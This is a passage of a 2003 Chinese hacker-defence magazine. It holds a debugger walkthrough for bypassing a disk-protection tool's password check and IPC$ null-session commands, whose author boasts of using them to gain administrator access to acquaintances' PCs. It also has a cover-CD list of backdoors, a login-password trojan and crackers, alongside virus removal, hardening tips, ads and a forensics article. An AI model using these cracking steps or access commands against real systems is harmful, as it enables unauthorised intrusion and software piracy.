如果你只想要属于你的注册码，我们可以在 4a1477 这一行，看一下堆栈区最上面的两个地址，然后选 Memory Dump，填入地址就可以看到注册码了。但是这个小伙确实简单，总共就一个循环操作，我们完全可以自己写注册机的。这个就交给读者自己搞定了！

通过这个例子，我们可以看到 P-Code 的东西其实也不过如此嘛，不难！但是需要勤加练习来加强锻炼。就写到这里，如果你有什么不会的问题，可以给我发邮件到：JustShowMe@hotmail.com，我会尽量给你完美的解答。

# 敏思硬盘软件扩展

文／tanghui

看了第4期《一步一步学解密》之后，我受益匪浅，于是照着上面试了试破解，很快就得到注册码，还得多谢我心如风了，在破解之后我又试了试别的方面破解，发现还可以不用原密码，就可以改变密码。使用工具如下：

- 工具：TRW2000
- W32DASM

具体方法如下：

用W32DASM打开敏思，选择“参考->串行参考”，找到“未输入有效的口令，请重试”双击“未输入有效的口令，请重试”可得到如下代码：

在“输入原口令”里随便输入一个口令，然后点击“输入新口令”，会被TRW拦截，这时千万不要输入命令BD或者BC（因为如果输入BD或者BC，那么下面说到的“再输入一遍”就不会被拦截），按F10执行到jne 004c3b2a，会发现不会跳转。可以看到如下指令：

```
004c3afe 8bc3 mov eax,ebx
004c3b00 e8fbfeffff call 004c3a00
004c3b05 74c0 test al,al
004c3b07 7521 jne 004c3b2a // 执行到这一行时并不跳转
004c3b09 6a30 push 00000030
*possible stringdata ref from code obj------->“敏思硬盘卫士”
004c3b0b 68543b4c00 push 004c3b64
*possible stringdata ref from code obj----->“未输入有效原口令，请重新输入”
004c3b10 68543b4c00 push 004c3b64
004c3b15 6a00 push 00000000
```

```
004C3B05 TEST AL, AL
004C3B07 JNZ 004C3B2A // 并不会跳转，需强行让它跳转，否则会出现“未输入有效原口令，请重新输入”的对话框。
...
004C3B17 CALL USER32!MESSAGEBOXA
```

找到004c3b07那边有一个跳转指令可以跳转，从而可以躲过“未输入有效原口令，请重新输入”，但是我实际跟踪时，它并没跳转。好，现在再拿出TRW2000，加载敏思，下断点bpx 004c3b05，然后按F5运行敏思，点击任务栏右侧的敏思图标（和驱动器一样的图标）找到“系统设置->修改口令”，会出现修改口令对话框，如图1所示。

明白的人看到最后一行（也就是004C3B17的那一行）的指令就知道那一行肯定是显示“未输入有效原口令，请重新输入”，现在输入REIP 004C3B2A，这个命令就是强制使它从004C3B2A处执行，按F5，是不是不再出现那个可恶的对话框了，现在再在“输入新口令”里面输入你想要的口令，再点击“再输入一遍”，又一次被TRW拦截（现在知道为什么刚才不要输入执行BD或者BC了吧），按照上面的方法重新操作一遍，点击“确定”，口令就可以更改了。

这是我在破解软件中的一个小小的发现，希望大家不要将它用于非法用途。

我的QQ：65986956，电子邮箱是：tanghui13@163.com，欢迎大家与我联系。

# 技术真的学无止境

经常在QQ上或者论坛中有众多的读者在询问我，作为初学者要学习安全技术到底要学些什么。大凡遇到这样的问题，我基本上都回答说要先从基础的网络知识学起。然而这个答案似乎令他们费解，接着能衍生出来的问题更加“抽象”，总之会把一股脑“该怎么怎么”的问题全部提出来，似乎这样技术就有了提升！如果真是这样也就罢了，可事实上似乎……不太现实。

在技术这个圈子里，没有谁能敢称自己了解一切技术核心，因为毕竟有很多内幕需要延伸。其实初学者也应当这样看待，既然是如此，又为何不先从基础学起呢？那么基础学了是不是就一定会成为专家？这个，我无法保障，因为毕竟不可能全民皆黑客！

基础知识的重要性在于它是你交流的根本！当你有这样那样的问题的时候，需要与他人交流；能否讲的清楚，对方能否明白你的意图，这样你才可以得到提升的机会，才可以得到技术研究与实践的可能，否则，永远都只停留在表面的肤浅之中……

技术真的学无止境，但最开始的路却是很明确的！

——苏樱

广州的网友谜营幻乐在病毒版发贴说：最近小弟电脑的全部文件夹下生成了desktop.ini和Folder.htt文件，在“查看－自定义文件夹”中删除自定义文件夹后这些文件又会自动恢复，问是否中了病毒？南京气象学院的cading025贴出了Folder.htt的病毒代码，说这个病毒让他无法正常上网，网友梦梦^^以前也发贴询问到底怎么才可以看出机器是否中了新欢乐时光？

其实，新欢乐时光病毒已经出来很久了，我最初中这个病毒的时候是在去年暑假，有个兄弟用优盘在机器上拷了一些文件。后来我发现机器打开目录的时候总是要先等几秒钟然后才显示出目录中的内容，速度非常之慢，不堪忍受，不久后发现每个目录中都包含两个隐藏文件：Folder.htt 和 Desktop.ini。我想肯定是感染了病毒。中了病毒怎么办呢？我立刻打开google，输入两个文件名，再加上“病毒”这个关键字，乖乖，这才发现原来是大名鼎鼎的新欢乐时光病毒，当时在网上看了一些手工解除该病毒的方法，先打开我的电脑，然后点击“工具－文件夹选项－常规－Web视图”，选择使用 Windows 传统风格的文件夹，这样打开目录时就不会执行病毒程序了，再删除所有Folder.htt和Desktop.ini文件，然后拷贝两个没中毒的文件夹图标应用目录，并将WINNT下的Web目录改为只读。我这样做了，但是重启后，发现又出现相同情况，这到底怎么回事呢？想来想去，为什么重启后就这样了呢？于是打开注册表，进入 HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run，发现有一个指向system目录下kernel32.dll的键值。Kernel32.dll不是在system32目录中的吗？肯定不是什么好东西，删除。然后按照上面提到的做法重新删除了一遍。再重启，哦，好像没有问题了。这便是我第一次手工接触该病毒的经历，后来用同样方法也跟其他几个兄弟解决了这个病毒。对于一般用户来说，做到这步就没有问题了。不过后来自己提取出该病毒源代码分析后，发现这种做的还是不够彻底，于是写了“我是如何手工接触新欢乐时光病毒”一文，黑防论坛病毒版有此文专门介绍，这里由于篇幅关系就不再罗嗦了。

武汉网友小虫虫来信说，听说开放 IPC$ 有很多弊端，请问如何利用 IPC$，我又应该如何关闭呢？

```
`net use \\\\IP\\ipc$ "" /user:"administrator"`

`net use`

`net use \\\\IP\\ipc$ "" /user:""`

`net time \\\\ip`

`net use X: \\\\IP\\d$`
```

最初接触 IPC$，是在我学习 Net 命令组的时候。而第一次实战便是在cmd下直接对QQ上获得的好友IP进行“net use \\IP\ipc$ "" /user:"administrator"”命令。嘿嘿，你还真说，我还就是这样拿到了不少机器的管理员权限。不过后来发现，其实在浏览器栏输入“\\IP”系统一样会提示让你输入用户名和密码，这样也是创建了一个空连接。不信？这样操作后，回到cmd中，敲入“net use”命令，看在网络连接中是不是有一个“\\IP\IPC$”的连接！通常你猜不到对方的密码，不过你可以输入“net use \\IP\ipc$ "" /user:""”命令，同样可以成功建立空连接，不信就自己动手看看！这时你可以用“net time \\ip”命令看对方机器时钟等等。不知道大家碰到过有时网上邻居打不开的问题没有？这时，你可以通过在浏览器栏输入“\\IP”访问局域网机器哦，但是有时候这样也会出错，这时候你便可以通过net use命令先建立一个空连接，然后便可以通过命令“net use X: \\IP\d$”将对方硬盘映射为本地## 盘符 X 使用，效果不错的哦。Net 命令组功能的确过于强大了，既然有这么强大的功能，那么被别有用心者利用可就不好了，怎么办？不用着急，我们可以通过 “net share ipc$ /del” 命令关闭，不过重新启动之后，会重新打开。那第二种方法呢？首先运行 regedit，找到如下主键 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]，把 RestrictAnonymous=DWORD 的键值改为：00000002 便可（1：匿名用户无法列举本机用户列表，2：匿名用户无法连接本机 IPC$ 共享）。最后要说的是，以上 “IP” 处也可以用机器名代替。

看完上边的回答，各位读者对于 IPC$ 连接的相关操作应该非常熟悉了吧？那么，在编程中如何实现这一操作呢？正巧，论坛中有位 Darknight 读者，提出此问题：“如何用 VC++ 编程实现 IPC 连接？能给出实例吗？谢谢！” Heavyd 在查找了 MSDN，动手实践之后，作出以下解答：

```
cpp
BOOL ConnetIPC(char * RemoteName,char * User,
char * PassWord)
{
    char tmp[128]="\\\\";
    strcat(tmp,RemoteName);
    strcat(tmp,"\\ipc$");
    NETRESOURCE NetResource;
    NetResource.lpRemoteName=tmp;
    NetResource.dwType=RESOURCETYPE_ANY;
    NetResource.lpProvider=NULL;
    NetResource.lpLocalName=NULL;
    if (WnetAddConnection2(&NetResource,PassWord,
        User,FLASE)==NO_ERROR)
        // 建立连接
        return FALSE;
    else
        return TRUE;
}


ConnetIPC 的参数中，RemoteName 是远程主机名，User 为用户名，PassWord 为密码。
```

编辑大人好！看了贵刊 4 期的“编读期（互）动”感觉我们读者和各位编辑的距离拉得很近，做得很好，我永远支持你们！

我再（在）学习局（局）域网的网络管理中遇到一个问题，就是在 Telnet 到某一台机器后，想打开中（终）端服务和 IPC？我们的系统都是 Windows 2000，已经安装终端服务。

热心读者苍蝇上：读完信小编我即刻晕倒！短短几行话，居然错了 4 个字！做编读互动可不是“胡”来的吗，我们是要对读者负责的，建议苍蝇朋友回去看看中学语文课本，呵呵，开个玩笑，下面言归正传，回答问题：只要用以下几行命令即可实现：

- `net start termservice` // 启动 Windows 2000 的终端控制
- `net start workstation` // 打开 net use 功能
- `net start lanmanserver` // 打开 IPC

最近比较忙，总觉得时间不够用，除了做好编辑的工作，还要不断地给充电，学习相关的专业知识，以满足日益增长的读者的求知的需要，回答好每个读者的问题，做好和各位读者交流的工作。在论坛中，自然少不了和各位读者交流学习经验，下面的帖子来自论坛中“菜鸟学堂”版块：

> > **黑色葡萄：** 我最近在学习 TCP/IP 应该重点学哪里？
>
> **快乐王子：** 就我个人认为 TCP/IP 毕竟是原理性很强的东西，你可以把重点放在 IP 报文这里。
>
> **G-python：** 只要多看多想，能把理论性极强的东西和现实中的应用联系起来，这样的话，TCP/IP 学起来就很简单了，而且，还会有很多意外的收获。而我，从入门到现在，一直都在受益于这些意外的收获。
>
> **Heavyd：** 是啊，实践出真知，一边学习，一边动手，对于掌握知识有很大的帮助，不但深入理解了理论知识，而且还锻炼了动手能力。学习是个循序渐进的过程，不应急躁，从简单基础的学起，毕竟万丈高楼平地起！

最后，欢迎各位到论坛交流学习心得，共同把黑防论坛建设好。

黑防论坛自开办到现在，积累了丰富的内容，如何利用这些资源呢？回答很简单——搜索！一方面，可以充分利用起论坛的资源；另一方面，为斑竹和其他读者减少读帖子和重复回答问题的时间，还可以节约服务器所占用的空间！毕竟，积少成多。记得毛主席有句话说得很好：“自己动手，丰衣足食。” 很多时候，靠别人还真不如靠自己。其实，在自己查找问题答案的同时，也会加深自己的印象；再深入一点，在浩瀚的网络中，包罗万象，很可能就有你要找的问题答案，在我回答的问题中，有相当一部分是在网络中找到部分答案的，再加上自己的理解和经验，一个问题的答案就出来了。当然，开办论坛的目的就是希望各位读者多参与讨论，相互提高，但这不是在重复提问相同问题的基础上的。最后，希望各位读者多参与讨论，在讨论中进步！黑防论坛永远是您的朋友！

# 光盘要目

## 系统安全

- 冰河陷阱.rar：冰河写的对付使用“木马冰河”的人，从此不需再担心种冰河了。
- wss120 Spy Sweeper v1.2.0.2：自动检测并清除系统的间谍软件。
- SecureIIS201：SecureIIS Application Firewall 2.01 是一个应用在 IIS 上的应用防火墙。
- Snort183Win32.exe：免费的 IDS 入侵检测系统。
- PGP8 Desktop Licensed.exe：PGP 加密软件。

# 杂志相关

- webdav.exe：xhacker 的 webdav 攻击演示。
- xhacker.exe：xhacker 的入侵演示。
- rpc.exe：RPC Locator 的攻击演示。
- webdavdemo.exe：剑客的 webdav 攻击演示。
- ys.exe：一个网友的 webdav 攻击演示。

## 网管软件

- HIDS.pdf：Sql 的 Hids——点经验。
- CE_all_SC.pdf：Netscreen 资料手册。
- SolarWinds.rar：一个具好的网络管理软件。
- CHS_SQL2KDeskSP3.exe：MsSql 服务器最新的 SP3 补丁。
- isa.rar：微软 ISA 防火墙测试版本。
- xfocus_conference_doc.rar：安全焦点资料。
- Sniffer.rar：Sniffer，可以用来抓取信息包，利判断网络故障。

## 后门工具

- httprat01a：一个国外的后门，可通过浏览器。
- BlueAngc：BlueAngel 后门，配置好以后可以用 Telnet，如果后台 CMD 出错可用上下箭头激活。
- WinEggDropShell1.39：一款 Telnet 服务的后门工具，可以插入到任意进程中运行。
- Bdtools：一个定时加用户的后门工具。
- hackkit10：是一个非常方便和强大的工具，用于得到管理员密码后的入侵。
- T-Cmd v1.0 beta：自动为远程/本地主机创建服务级后门，无须使用任何额外的命令，支持本地/远程模式。
- Filter：比较隐蔽的 CGI 后门。

# 扫描工具

- WebDAVScan：用于检测网段内的 Microsoft IIS 5.0 服务器是否提供了对 WebDAV 的支持。
- Retina490：Retina Network Security Scanner 4.9 去年曾经获过国际大奖的网络安全评估软件。
- CyberCop Scanner：一个网络的安全评估扫描软件。
- SQLTools.rar：MS SQL 的扫描探测工具集合，包括 SQLPing、SQLScanner、SQLCracker、SQLDos 等。

## 远程控制

- gwboy2003：广外男生远程控制软件 V0.91，使用广外程序员独创的“线程插入”技术。基于成功的“广外幽灵”的先进技术，服务端运行时没有进程！所有网络操作均插入到其他应用程序的进程中完成。
- minicom3.7.zip：这是一款使用 TCP/IP 或 IPX/SPX 协议，通过局域网或广域网进行远程管理控制的软件，具有远程屏幕管理、文件管理器、语音通话、时钟同步、远程关机、文本聊天、交换剪贴版文本等功能，其默认端口是 2600，口令为空。
- sup_kp.zip：Gina 木马的主要作用是在系统用户登陆时，将用户登陆的名字、登陆密码等记录到文件中。

## 密码破解

- cain25b29.zip：一个可以破解屏保、PWL 密码、共享密码、缓存口令、远程共享口令、SMB 口令、支持 VNC 口令解码、Cisco Type-7 口令解码、Base64 口令解码、Access Database 口令解码、Cisco PIX Firewall 口令解码、Cisco MD5 解码等综合工具。
- accesspv11.zip：Access PassView 1.10，这个小工具能解开 Access 95/97/2000/XP 或 Jet Engine 3.0/4.0 数据库的密码。
- Clr_FoxmailPw10d.zip：Foxmail 账户口令清除器。
- ntpasswd.zip：WINNT/2000/XP 登录口令破解器，制作一张软盘就可以用来改变各种用户的口令（包括管理员密码），使用前请仔细阅读制作成软盘安装说明。

# 我们为祖国争得荣誉

## 在一系列国家领导人参与的重大历史时刻，
我们为信息安全保驾护航！

- **2001年7月** 成功完成北京“世界大学生运动会”的信息安全工作
- **2001年11月** 圆满完成上海“APEC”会议的镜像网站保护工作，成功抗击全球黑客攻击16.8万次
- **2002年5月** 胜利完成上海“亚洲开发银行第35届年会”的信息安全保卫工作
- **2002年5月** 成功完成上海“APEC信息部长会议”的信息安全保卫工作

**2002年10月**

领信防火墙LinkTrust™ Cyberwall荣获《网络世界》颁发之“编辑选择奖”；
安氏（中国）成为由《互联网周刊》举办之“中国电子政务IT百强”。

## 安氏（中国）

## 服务与自主研发信息安全产品系列

- LinkTrust™ IDS 领信入侵检测系统系列产品
- LinkTrust™ CyberWall 领信防火墙系列产品
- eSafeLink™ 全方位信息安全解决方案与服务

# CONTENT
# 黑客防线
### 目录 2003/6 —— 针对最新入侵手段与攻击的防范研究

总编辑：孙 彬  
执行主编：郭照辉  
编辑：刘 峰、苏 樱  
guojpeng、Heavyd  
采编部主任：张 馨  
美编部：王 凤  
技术部：徐生震  
发行部：杨贵兰  
邮购部：王 英

光盘刊号：CN15—9201/TP  
编辑：黑客防线编辑部  
出版：家庭电脑世界杂志社  
制作公司：北京地海森波网络技术公司  
通信地址：北京中关村邮局008信箱  
邮政编码：100080  
协办单位：北京寰海科技开发中心

技术支持电话：62141445—8004  
投稿E-mail：hacker@hacker.com.cn  
问题解答E-mail：answer@hacker.com.cn  
网址：http://www.hacker-defence.com  
发行部电话：62141446  
发行部传真：62141360  
邮购部电话：62141445—8011

常年法律顾问：北京风清律师事务所  
王碧清 律师  
电话：13701229137  
传真：(010) 84510532  
E-mail：wangbiqing@163.com

## 卷首语

## 业界动态

- 新闻动态

## 名家专访

- Shanlu 自述：路靠自己走  
- 某安全公司 IDS 项目经理陈建芳 ................. 4

## 专题企划

- 抓住罪恶的黑手——论计算机取证技术 .................... 6

说道黑客攻击事件，我想大家都应该较为熟悉了，毕竟上期专题我们还谈了美伊大战引发的黑客大战！本期专题我们该点什么呢？同样和黑客攻击有关，只不过是黑客攻击的另一面。计算机犯罪目前是越来越严重了，如何有效地遏制这类犯罪，已经成为我们不得不面对的问题。为了有效惩治和防范计算机犯罪，各国纷纷加快这方面的立法，美国已经拥有世界上最完善的反计算机犯罪法律，我国也将计算机犯罪列入了《刑法》之中。但仅靠法律条例还是远远解决不了问题的，我们还必须依靠计算机取证技术。这也正是我们今天要谈的主题。

## 漏洞攻击防护

- 加强终端服务的安全性 ........................................ 12  
- “黑客”与系统管理员的较量  
  - 系统管理员防御篇 ........................................ 17

## 脚本攻击防护

- ASP 代码源程序下载后安全使用初识  
  - 初做站长数据安全指南 ........................................ 20  
- PHP 的 10 项安全检查 ........................................ 22  
- 浅谈路经泄露 ........................................ 27

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00 元人民币（光盘 + 说明书）

## 黑器攻击防护

- “安全配置和分析” 图解教程 …… 28
- 让你“心知肚明”——Antity port 的使用 …… 31

## CVC病毒专栏

- Win32 病毒基础系列之 API 地址的获取 …… 32

## 网管之家

- 来自网管的反击 …… 36

网上充斥着针对破解网吧封锁权限的文章，手段也越来越高明，从 Javascript 技术构架在线破解系统到 ActiveX 技术构架的在线破解系统，其破解手段及技术含金量、技术成熟度，越来越走向成熟，读取还原精灵等软件措施的密码是小儿科了，甚至发展到了调取 16 位 MS-DOS 程序破解硬件硬盘保护卡、硬盘还原卡密码。面对越来越成熟的破解手段，网吧管理也越来越走向一个窘迫的处境，网管面临着严峻的挑战，在 BOSS 严厉要求和客户百般挑剔之间怎样才能走出一条技术之路？怎样才能让自己辛辛苦苦做出来的心血不至于付之东流？

- 让微软的 FTP 服务器也用上 SSL …… 40
- Windows 2000 账户密码的攻击方法以及对抗策略 …… 42
- 防范局域网内的服务器被入侵 …… 44
- 你的 IIS 够安全吗 …… 46
- 用三层交换来阻击 DoS 的攻击 …… 48
- 保护文体数据安全的巧妙方法 …… 49
- VLAN 深度剖析 …… 50

## 安全方案

- 网络负载平衡技术应用实例 …… 54
- Windows 2000 中网络安全策略的详细设置方法 …… 59

# 编读互动

定价：35 元

## 内容提要：

《黑客防线精华本 2002》主要内容由《黑客防线》2002 年全年内容浓缩而成，经过编辑重新加工，按照文章内容和梯度进行了详细分类；全书内容通俗易懂，涵盖面广，突出实用，更加便于读者阅读、学习和研究。书中重点涉及了人物、专题、系统安全、服务器安全、数据库安全、网站安全、网管心得、案例、编程、工具、破解、病毒分析、网友交流等 20 个方面。

本书附赠 2 张配套光盘。光盘中包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文档、系统最新补丁；更有价值的是收录了《黑客防线》原创全程攻防录像演示和 2001 年《黑客防线》精华本的电子版。

## 邮购信息

| 名称 | 规格 | 价格 |
|---|---|---|
| 黑客防线秘笈（珍藏版） | 1CD | 28.00 元/期 |
| 黑客防线 2 到 7 期（珍藏版） | 1CD | 28.00 元/期 |
| 黑客防线 8-9 期（珍藏版） | 2CD | 28.00 元/期 |
| 黑客防线 9 上、9 下、10 上期 | 1CD | 6.80 元/期 |
| 黑客防线 11-30 期 | 1CD | 10.00 元/期 |
| 黑客防线之攻防工具详解 | 1CD | 23.80 元/本 |
| 黑客防线精华本 2001 | 2CD | 29.00 元/本 |
| 中国黑客内幕（6 折） | 1CD | 15.00 元/本 |
| 局域网组建维护 300 问 | 1CD | 19.80 元/本 |
| 编程入门 | 2CD | 25.00 元/本 |
| 趣味编程 100 例 | 1CD | 16.00 元/本 |
| 服务器也 DIY | 1CD | 23.80 元/本 |
| ASP 轻松建站全功略 | 1CD | 19.80 元/本 |

汇款地址：北京市中关村邮局 008 信箱
邮政编码：100080
收款人：《黑客防线》邮购
热线电话：(010)62141446，62141445-8011
E-mail：yougoubu@hacker.com.cn

# CHINA INTERNATIONAL INFORMATION SECURITY EXHIBITION 2003

## 2003中国国际计算机信息系统安全展览会

21-23 OCTOBER 2003

2003年10月21日—23日

BEIJING EXHIBITION CENTRE, BEIJING, CHINA

中国·北京展览馆

Infosecurity China是中国最大及最具影响力的信息系统安全展览会，目前已经有很多业内知名企业参加，本届Infosecurity China将是一次不能错过的行业盛会。我们和以下参展企业共同期待您的参与。

# 商业回执

- □ 我希望参加2003年中国计算机信息系统安全展览会。请为我预定展位____平方米。
- □ 我希望参观展览会，请与我联系。

| 字段 | 内容 |
|---|---|
| 姓名 | |
| 职位 | |
| 公司 | |
| 地址 | |
| 电话 | |
| 传真 | |
| 电子信箱 | |
| 网址 | |

请传至励展博览集团

联系人：朱颖小姐

地址：北京市建国门内大街8号中粮广场B座920室  邮编：100005

电话：86 10 85115630-236  传真：86 10 6526 0940  电子信箱：lisazhu@reedexpo.com.cn

## 安全败于安全意识

阳春三月正是春回大地、万物复苏的季节，“一年之计在于春”。但一场天灾人祸却打断了人们在春季中的憧憬和希望。三月初爆发的伊拉克战争和四月北京的 SARS 病毒对人类的猖狂进攻，使久居和平时代的人们再次感到了战争和病毒对人类、对生命的威胁。

如果把这次天灾（病毒）和人祸（战争）映射到信息网络世界，对应的就是诸如红色代码、尼姆达等各种病毒对网络的攻击，以及现代战争在虚拟网络世界的延伸，信息网络战。

以今年 1 月 25 日流行的 Slammer 病毒攻击为例，几个小时之内，病毒席卷全球，攻击了全球成千上万的网络。究其原因还是用户信息安全意识不强。

至于伊拉克战争，可以说一定意义上首先打的就是信息战。早在战争之前，布什就曾签署了一份秘密文件，首次要求有关部门制定出全国统一规范，以便确定何时以何种方式对敌人的计算机网络发动黑客式毁灭性打击。同时很多信息也表明，在对伊拉克战争正式爆发之前，美国就有意对伊发动一场全新的网上战争。

北京中科网威信息技术有限公司
市场总监范勇

因此，信息安全不仅指企业或个人的信息网络安全，它更是关系到国家安全、社会稳定的头等大事，尤其在今后可能爆发的各种信息大战中，谁掌握了网络信息安全的核心技术，谁就能掌握网络信息战的制空权和主导权！谁都清楚，保卫国家安全必须依靠自己的军队，而不能依靠雇佣军，所以，这些网络安全的核心武器，必须掌握在自己人的手中！

与现代保险业的原理类似，网络安全最重要的一个字就是“防”，这已经成为整个网络安全界的共识。各网络安全厂商也确实都在强调自己的安全防护理念，都是在向用户灌输一种“防患于未然”的思想意识。尤其在我国，大多数中小企业在进行信息化建设过程中，只是简单地建立了企业内部的局域网并接入当地 ISP，由于网络结构单一，各连接点没有任何安全防范措施，往往一处小小的故障就会引起全网瘫痪，因而这个“防”字就显得尤为重要。

互联网引入中国，先进网络技术带来了社会各方面的变革和挑战。目前我国信息化建设已经取得了巨大成就，但在防护方面做得还是很不够，整个安全方面的投入占总体建设的 1%，而发达国家网络投资的 15% 会用在安全方面。网络安全意识和防范措施都远落后于发达国家；决策者谈网络技术的多，谈安全的少。事实上，安全问题就是一个风险的概念，投资多少钱、风险多大、收益多大都要有一个权衡。从这个意义来说，我们可以说安全完全取决于安全意识。因此，这个时候重新提起“居安思危”的古训就愈发有了现实的重要性和时代的紧迫性。

通常正确的认识会促进应用的增加，随着中国信息化的建设的蓬勃发展和应用水平的不断提高，人们会逐渐走出网络安全的认识误区，树立正确的网络安全防范意识，认识到网络安全的投入不是意味着成本的增加，而是具有实际的投资效益，是保险业在虚拟网络世界的应用。同时在国家相关产业政策的支持下，越来越多的决策者会为明天的发展购入一份安全的保险，从而促进我国网络安全产业的快速发展！

# 信息安全：技术能力为本

第三届“中国信息安全发展与趋势”高层研讨会在中国科学院会堂学术报告厅举行。来自信息安全主管部门、政府机构，国内各大银行、证券公司、保险公司、电信、电力、能源等重点行业用户，以及从事信息安全产业的相关单位及个人参加本次研讨会，另外，大约有 3000 名来宾参观了商家的产品演示。

在本次研讨会上，北京理工先河科技发展有限公司总经理张潜，就目前信息安全产业的发展状况，提出“技术能力为本”的观点，认为技术能力是解决网络安全问题的根本所在，并阐明“技术能力”包括了三个方面的内容：一是人才的组织和培养；二是技术的综合能力，也就是广泛借鉴、重点吸收的能力；三是技术的应用能力，即技术的扩散、推广能力。“技术能力为本”的观点得到了与会专家及同行的认同，并对“技术能力”的形成过程中，政府、科研机构、安全企业、用户应该担当的角色、采取的态度做了深入的探讨。

# 军地专家携手打造信息安全屏障
普通电子邮件“指纹锁”

由总参南京科技创新工作站联合军内外 10 家单位研制的“军用指纹加密电子邮件系统”，日前在南京通过技术鉴定。我国自此拥有了第一套自主知识产权的指纹加密网络安全产品。

据了解，目前电子邮件完成了全世界一半以上的网络信息传输。因此，追踪世界信息技术发展前沿，构筑我国信息安全防护体系，已成为事关“打赢”的重大任务。总参南京科技创新工作站联合多家地方科研单位，经过一年多时间的奋力攻关，开发了指纹加密电子邮件服务器、用户管理、客户端等软件，建立了系统公钥证书体系，从而有效解决了应对恶意邮件攻击、邮件窃取和伪造、私有信息泄露等各种难题，成为一个具有全面安全保障机制的电子邮件系统。

### 东软提供高科技产品
抗击“非典”

“非典”是一场突如其来的灾难，以科学的态度和高科技的手段抗击“非典”是中国乃至全人类战胜这场灾难的关键；防治“非典”，刻不容缓。网络安全巨头东软集团的东软数字医疗公司的科技工作者在接到辽宁省政府和有关医院紧急委托之后，立即组织 50 多位科技人员进行封闭开发，投入到研制“非典”专用 X 线机的攻坚战中；东软凭借自身在软件和大型数字医疗影像设备领域雄厚的研发、生产实力和技术积累以及辽宁在制造加工工业方面丰富的经验，仅用 9 天就研制出国内首台“非典”专用的超高频床旁 X 线机，为我国抗击“非典”提供更为有效和实用的高科技诊断手段。

# 微软推出新一代 PC 安全技术
集成在新版 Windows 中

美国东部时间 5 月 7 日消息，微软发布了新一代 PC 安全技术，意图保护个人隐私。在视讯硬件工程大会（WinHEC）上，微软主席比尔·盖茨称，新一代的安全计算机基础技术（NGSCB）将保护系统内的密码和隐私，即使这个平台上运行的是第三方的软件。

微软称，通过 NGSCB 技术，可以保障跨组织工作用户的信息安全。NGSCB 技术的推出，将会大大地影响现在的防病毒技术。因为 NGSCB 天生将会保护重要数据，防止这些数据被病毒、木马和黑客软件攻击。微软称，这一新技术将会集成在新版 Windows 中。据悉，在 Longhorn 版本中将集成这个功能。

微软称，NGSCB 在商业领域中将会大展鸿图。商业用户可以通过 NGSCB 控制自己的信息，如个人记录、经济信息。用户可以决定这些信息是否通过安全验证，才能在互联网上发布。用户也可以限制个人数据的发布。此外，NGSCB 还可以监测计算机、程序和设备是否正常地使用信息和资源。

### 日本政府机构及企业网站
第一季度遭黑客攻击 5 万次

根据日本警方 5 月 1 日公布的数据显示，2003 年 1 月至 3 月，针对日本国内各政府机构及企业网站的黑客攻击事件达到了 51000 件以上，平均每天发生 500 件黑客攻击事件，这一数字相当惊人。黑客攻击已经取代电脑病毒，成为对日本国内网络安全威胁最大的计算机犯罪手段。

由于近几年网络犯罪数量激增，犯罪手段不断更新，日本国内对网络安全的重视程度也不断提高。随着杀毒技术的发展，电脑病毒的威胁程度有所下降。但是，进入 2003 年后，电脑黑客对计算机网络的威胁却越来越引起日本国内的重视。

据日本警方分析，黑客最常用的手段是采用木马软件侵入政府机构或企业网站，伺机窃取资料或进行破坏，这类案件占案件总数的较大比例，43%；其次是采取类似破坏韩国计算机网络的那种“蠕虫”病毒的攻击手段，单纯以破坏网站和计算机网络为目的；此外，通过计算机网络对银行等金融机构进行犯罪的案件也呈上升态势。

# 与 IBM 打官司惹怒 Linux 拥护者
SCO 网站遭到攻击

SCO 发言人布莱克－斯托维尔称，美国当地时间 5 月 2 日上午 10 时 45 分，SCO 网站遭到一个 DDOS（分布式拒绝服务）攻击，导致运作瘫痪。在 DDOS 攻击中，通常是由多个计算机同时向目标系统发送大量数据，从而造成网站流量堵塞。

斯托维尔称目前还不知道谁是此次攻击的发起者以及进行此次攻击的原因何在，但是 SCO 目前与 IBM 之间的官司的确招致很多 Linux 拥护者的反对，该公司指责 IBM 侵犯了自己的 UNIX 知识产权并将之应用于开放的 Linux 系统，索赔 10 亿美元。他还指出采取 DDOS 攻击并不光明正大，官司是官司，不应以这种方法进行报复。

# 前白宫网络安全专家将加盟 eBay
对付网络欺诈

美国东部时间 5 月 2 日消息，美国著名网络公司 eBay 的一位发言人于日前证实，为了加强 eBay 公司的网络安全系数，提高公司反网络欺诈的能力，eBay 将请出刚刚从白宫卸任不久的网络安全专家霍华德·施密特（Howard Schmidt）来担任该公司网络安全部门的副总裁。

据悉施密特将在今后几周内正式到 eBay 上任。eBay 没有详细透露施密特将主管的具体业务，但表示他的工作将与网络安全、反网络欺诈以及法律诉讼等事务密切相关。

随着网络欺诈的风气在美国呈现了愈演愈烈的趋势，eBay 特别希望能请出一位资深专家来加强自己这方面的工作。在过去的几年中，不少网上不法分子利用 eBay 的名义大搞网络欺诈，使得 eBay 蒙受了不少不白之冤并受到了美国联邦贸易委员会（FTC）的多次警告，因此 eBay 已经将网络安全和反网络欺诈当作了自己的首要工作之一。

# 计算机取证

文/guojpeng

在计算机网络犯罪手段与网络安全防御技术道高一尺魔高一丈不断升级的形势下，单靠网络安全技术打击计算机犯罪不可能非常有效，因此需要发挥社会和法律的强大威力来对付网络犯罪，计算机取证正是在这种形势下产生和发展的，它标志着网络安全防御理论的成熟。

计算机取证（Computer Forensics）也称计算机法医学、电子取证、数字取证。它是指对计算机入侵、破坏、欺诈、攻击等犯罪行为，利用计算机软硬件技术，按照符合法律规范的方式进行识别、保存、分析和提交数字证据的过程。它把计算机看作是犯罪现场，运用先进的辨析技术，对计算机犯罪行为进行法医式的解剖，搜寻、确认罪犯及其犯罪证据，并据此提起诉讼。

计算机取证是一门新兴的计算机科学和法学的交叉学科，目前国内对计算机取证的研究已经开始。由于其本身的特点，计算机取证涉及到数据恢复、日志分析、磁盘原子拷贝、数据传输和保存等计算机方面的专业知识和其他法律方面的相关知识。

- 识别证据
- 传输证据
- 保存证据
- 分析证据
- 提交证据

而计算机证据一般主要来自两个方面，一个来自于系统方面的，另一个来自于网络方面。

- 系统日志文件
- 备份介质
- 入侵者残留物：如程序、脚本、进程、内存映像
- 交换区文件
- 临时文件
- 硬盘未分配的空间（通过离区搜索可以找到一些被删除的文件）
